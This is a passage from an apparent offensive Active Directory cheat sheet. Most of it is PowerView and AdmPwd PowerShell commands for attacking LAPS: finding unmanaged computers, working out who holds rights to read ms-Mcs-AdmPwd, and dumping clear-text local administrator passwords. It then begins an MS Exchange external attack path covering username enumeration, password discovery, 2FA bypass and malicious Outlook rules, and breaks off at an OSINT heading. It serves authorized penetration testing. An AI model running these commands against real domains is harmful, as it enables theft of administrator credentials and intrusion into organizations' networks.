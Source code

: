 ````

#### Check all computers without LAPS
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime -like $null | select-object samaccountname
```

#### Check the LAPS configuration
- https://github.com/PowerShell/GPRegistryPolicy
- Password complexity, password length, password expiration, Acccount managing LAPS
- AdmPwdEnabled 1 = local administrator password is managed
- Passwordcomplexity 1 = large letters, 2 = large + small letters, 3 = Large + small + numbers, 4 = large + small + numbers + specials
```
Parse-PolFile "<GPCFILESYSPATH FROM GET-DOMAINGPO>\Machine\Registry.pol" | select ValueName, ValueData
```

#### Find all users who can read passwords in clear text machines in OU's
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | Select-Object ObjectDN, IdentityName
```

```
Import-Module AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

#### If retured groups, get the users:
```
$LAPSAdmins = Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins += Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins | select Name, distinguishedName | sort name -Unique | fortmat-table -auto
```

#### Read clear-text passwords:
```
Get-ADObject -SamAccountName <MACHINE NAME$> | select -ExpandProperty ms-mcs-admpwd
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd

#LAPS Powershell cmdlet
Get-AdmPwdPassword -ComputerName <MACHINE NAME>
```

## MS Exchange
- Outlook rules and Outlook Forms are synced to all clients with the mailbox active.
- Outlook Forms VBSCript engine is different then the VBA Macro script engine (So disabling macro's wont defend against it)

### Attacking externally
- Attah path could be: Reconnaissance --> OWA Discovery --> Internal Domain Discovery --> Naming scheme fuzzing --> Username enumeration --> Password discovery --> GAL Extraction --> More Password discovery --> 2fa bypass --> Remote Access through VPN/RDP / Malicious Outlook Rules or Forms / Internal Phishing

#### Collection of data (OSINT)
````